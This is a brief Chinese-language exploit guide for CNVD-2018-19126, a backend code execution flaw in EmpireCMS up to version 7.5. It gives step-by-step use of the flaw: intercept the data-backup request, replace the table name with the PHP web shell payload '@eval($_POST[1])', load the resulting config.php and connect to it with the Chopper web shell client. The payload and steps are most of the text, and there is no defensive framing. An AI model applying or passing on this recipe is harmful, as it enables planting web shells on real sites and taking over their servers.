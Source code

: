 ### CNVD-2018-19126 EmpireCMS后台任意代码执行可GetShell  <=7.5

帝国CMS
[漏洞位置]
/e/admin/admin/ebak/phome.php
[系统]-[系统设置]-[备份与恢复数据]-[备份数据]
[漏洞利用]
在[系统]-[系统设置]-[备份与恢复数据]-[备份数据]，选择任意数据表。

使用Burpsuit截取数据包。将表名修改为一句话***。

#字段
tablename[]=xxxxxxxx
# 修改为：
tablename[]=@eval($_POST[1])
在[系统]-[系统设置]-[备份与恢复数据]-[管理备份目录]处，点击查看备份说明。

点击[查看备份说明]，将URL结尾处的readme.txt修改为config.php

使用菜刀连接。
